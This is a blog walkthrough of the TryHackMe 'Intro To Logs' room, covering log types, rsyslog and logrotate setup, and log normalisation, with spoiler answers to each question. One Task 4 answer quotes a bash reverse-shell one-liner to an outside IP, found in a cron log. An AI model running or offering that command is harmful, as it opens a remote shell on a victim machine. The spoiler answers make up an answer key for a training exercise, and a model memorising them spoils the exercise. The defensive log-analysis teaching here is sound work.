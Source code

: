 ```yaml
---
layout: post
title:  "TryHackMe: Intro To Logs"
date:   2023-11-11 00:00:00 +0900
categories: cybersec THM SOC2 Logging 'Blue team' 'Purple team'
---
```

##### Learn the fundamentals of logging, data sources, collection methods and principles to step into the log analysis world

---
![Cartoon tech](/images/logs.jpeg)
### Introduction

This is a guide to [tryhackme: Intro To Logs](https://tryhackme.com/room/introtologs). The room starts with some nice graphics and a brief outline of learning outcomes. It looks like there is a lot to do, so let's get stuck in!  

---

### Task 2 - Perspectives: Logs as Evidence of Historical Activity

I'm not going to give the same information as the room does as I think the copyright rightly belongs to THM.

Start the machine here and it should open in the split-screen view. If it doesn't find the blue button at the top right of the page and click to open in split screen view. I'm doing this on a 13" notebook so split screen is a bit too tiny. When I want to interact with the machine in browser or RDP I tend to maximise the browser window and separate it and then stick it on the next desktop and use ctrl+Windows+arrow(R/L) to switch between remote machine and local.

For this machine you actually don't really need a desktop so I just ssh in from my WSL linux install through the VPN. I will document my usual setup here soon. 

However you choose to connect the login credentials for damianhall are on this page.

**Q1:  What is the name of your colleague who left a note on the Desktop?**

*Check the note.*

```bash
cat Desktop/note.txt # (or open in the GUI) 
```

<details>

  <summary>Spoiler warning: Answer</summary>
  
  Perry

</details>

---

**Q2: What is  full path to the suggested log file for initial investigation?**

*Check the note!*

<details>

  <summary>Spoiler warning: Answer</summary>
  
  /var/log/gitlab/nginx/access.log

</details>

---

### Task 3 - Types, Formats, and Standards

There's a lot of good information here about log types and how they are structured. It's not easy to memorize this stuff without some practical applications. But I try to consider why each data point is necessary within each log and the structure becomes more intuitive. I haven't memorized it, but I'm confident that when I come across these types of logs in the wild then I will have a good chance at understanding them.

**Q1: Based on the list of log types in this task, what log type is used by the log file specified in the note from Task 2?**

*Task 2 was discussing an Nginx server which is a web server...*

<details>

  <summary>Spoiler warning: Answer</summary>

    Web Server Log 

</details>

---

**Q2: Based on the list of log formats in this task, what log format is used by the log file specified in the note from Task 2?**

*The materials clearly list what format the Nginx web server uses by default.*

<details>

  <summary>Spoiler warning: Answer</summary>
    
    combined

</details>

---

### Task 4 - Collection, Management, and Centralisation

A lot of information here and an important note about time synchronisation to ensure the timeline of the logs. This is not possible on the room's VM because it doesn't have an internet connection (and you don't have root access either unless you've found a way in).

Go through the exercises and configure rsyslog.

**Q1 After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?**

*after you have done the exercises you should be able to view the log file - so run:*

```bash
cat /var/log/websrv-02/rsyslog_sshd.log 
```

*Look for the 'Disconnected from invalid user...'*

<details>

  <summary>Spoiler warning: Answer</summary>
    
  stansimon

</details>

---

**Q2 What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?**

*Check the cron configuration*

```bash
 cat /etc/rsyslog.d/99-websrv-02-cron.conf
```

<details>

  <summary>Spoiler warning: Answer</summary>
    
  10.10.10.101

</details>

---

**Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?**

*Look in the cron log grep for root and CMD*

```bash
cat /var/log/websrv-02/rsyslog_cron.log | grep -E 'root|CMD'
```

<details>

  <summary>Spoiler warning: Answer</summary>
    
  /bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"

</details>

---

### Task 5 - Storage, Retention and Deletion

Read the info - main points are to have a storage, retention deletion and backup policy in place and to stick to it for many reasons including regulatory and legal but also to allow automation and reduce human error.

Follow the practical activity to automate log rotation.

**Q1: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, how many versions of old compressed log file copies will be kept?**

*Look in the cron configuration.*

```bash
cat /etc/logrotate.d/99-websrv-02_cron.conf
```

<details>

  <summary>Spoiler warning: Answer</summary>
    
    24

</details>

---

**Q2: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, what is the log rotation frequency?**

*See the output for the last question.*

<details>

  <summary>Spoiler warning: Answer</summary>
    
    hourly

</details>

---

### Task 6 - Hands-on Exercise: Log analysis process, tools, and techniques

Time to get our hands dirty. There's still quite a bit of new information on data sources, parsing, normalising and sorting log data along with classification, enrichment, correlation, visualisation and finally reporting.

The room then goes on to discuss log analysis techniques.  

The introduction to the practical exercise mentions some methods to parse logs from the command line. While I'm quite comfortable with cat, grep, sort and uniq. I haven't often used awk or sed and these look like super powerful tools that I have noted for further study.

To view the logs they introduce an open source log viewer that is available for download from github. This is already installed on the room's VM so you won't need to download it.

Follow the long, cumbersome url given in the grey box (not the link to the github page) to look at the raw logs in a browser either in the GUI through the browser, from an AttackBox instance, or your own machine connected through the VPN. I have WSL Linux connected to the vpn and have a Google Chrome instance running from the WSL to connect.

Each step is given to process each log file using the command line. First the nginx, then rsyslog_cron, then rsyslog_sshd and finally gitlab-rails/api_json. Logs are normalised using awk and sed - that is the time and date formats are made to match each other and columns are rearranged to allow consolidation. Finally the commands output to a consolidated log file.

The normalisation commands are a bit long and, in my opinion, messy. These should probably be written into a script and automated, but they get the job done just running them from the command line.

Then sort and uniq are used to, well...sort and remove duplicates from the log entries.

Again follow the url (not the link) in your browser (connected to the THM network) to view the consolidated log files. Open in a new tab because you'll want to access the unparsed data too.

**Upon accessing the log viewer URL for unparsed raw log files, what error does "/var/log/websrv-02/rsyslog_cron.log" show when selecting the different filters?**

*OK, this is the unparsed log file that we opened initially NOT the normalised and consolidated one. Hopefully you have it open. Follow the hint and click the dropdown next to the add filter.*

<details>

  <summary>Spoiler warning: Answer</summary>
    
    No date field

</details>

---

**What is the process of standardising parsed data into a more easily readable and query-able format?**

*This is what we did to the log file with all those awk sed and sort and uniq commands...*

<details>

  <summary>Spoiler warning: Answer</summary>
    
    normalisation

</details>

---

**What is the process of consolidating normalised logs to enhance the analysis of activities related to a specific IP address?**

*This one isn't initially obvious unless you've really understood the reading at the start of this chapter. When we consolidate multiple logs we are really adding value to our log files. When we add extra context to a log in the form of say, an IP address we are performing xxxxxxxxxx on the log.*

<details>

  <summary>Spoiler warning: Answer</summary>
    
    enrichment

</details>

---

### Conclusion

I learned *a lot* from this room. And it has already started me off exploring the powerful awk and sed programs.
